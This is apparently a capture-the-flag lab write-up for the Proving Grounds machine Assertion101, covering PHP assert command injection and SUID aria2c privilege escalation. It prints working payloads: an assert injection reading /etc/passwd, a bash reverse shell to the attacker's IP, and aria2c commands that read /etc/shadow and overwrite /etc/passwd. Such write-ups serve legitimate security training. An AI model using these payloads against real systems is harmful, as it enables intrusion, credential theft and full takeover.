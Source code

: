 ```yaml
---
title: Assertion101 Writeup- Proving Grounds
date: 2022-11-06
excerpt: "Assertion101 is an intermediate rated Proving Grounds Play machine that covers command injection in PHP assert and SUID privesc."
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - SUID
ShowToc: true

---
```


Assertion101 is an intermediate rated Proving Grounds Play machine that covers command injection in PHP assert and SUID privesc. 
<!--more-->


## Foothold

Running NMAP returned ports 80 and 22 were open. `Gobuster` and `Nikto` did not return anything useful for the web server, but browsing through the web server we will notice a `page` parameter in the URL.

![pageparam](/assets/images/PG/assertion/possibleLFI.png)


The page parameter is really interesting and could mean an easy `LFI`. I intercepted the request and tried lots of `LFI` payload but the web server responds with either `Not so easy brother!` of `File does not exist`, after testing how the web application is detecting if I am trying `LFI` I discovered that if responds with `Not so easy brother!` whenever I have `..` in my payload. I tried double encoding but still did not work.

 I browsed to [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert) and learned that there is something called PHP assert where it totally matches what we are getting. A web application that blocks `..` and responds with a custom error. Using `' and die(show_source('/etc/passwd')) or '` as a payload worked and returned the contents of `/etc/passwd`. Now trying with a simple bash reverse shell `page='+and+die(system("bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.134/80+0>%261'"))+or+'` will give as a shell in the box as `www-data`, and we also have the first flag.


 ## ROOT

 Running `linpeas.sh` will show that `aria2c` has a SUID bit set. Searching in [GTFObins](https://gtfobins.github.io/gtfobins/aria2c/) we can see that it is possible to privesc when SUID is set in `aria2c` but trying the listed commands in GTFObins did not work for me. 

 Reading the help page of `aria2c` we can see that we can specify a file to read using `-i` so I tried using the command `aria2c -i /etc/shadow` this successfully disclosed the contents of the shadow file. It was also possible to just read the flag in `/root/proof.txt` using this. 

 ![shadow](/assets/images/PG/assertion/shadow.png)


 Further reading the man page of `aria2c` looks like we can overwrite a file using `-d` and `-o` options. so testing this I generated a password for `root` using `openssl passwd -1 -salt root pass123` and then downloaded the `/etc/passwd` file so I can add the newly created password. 

 Using the following command I was able to download the updated `passwd` file from my machine and overwrite the current `/etc/passwd` in the target.

`aria2c -d /etc -o passwd "http://myIP/passwd" --allow-overwrite=true`

After this we just need to run `su root` and use the password `pass123` and we are root.

![root](/assets/images/PG/assertion/root.png)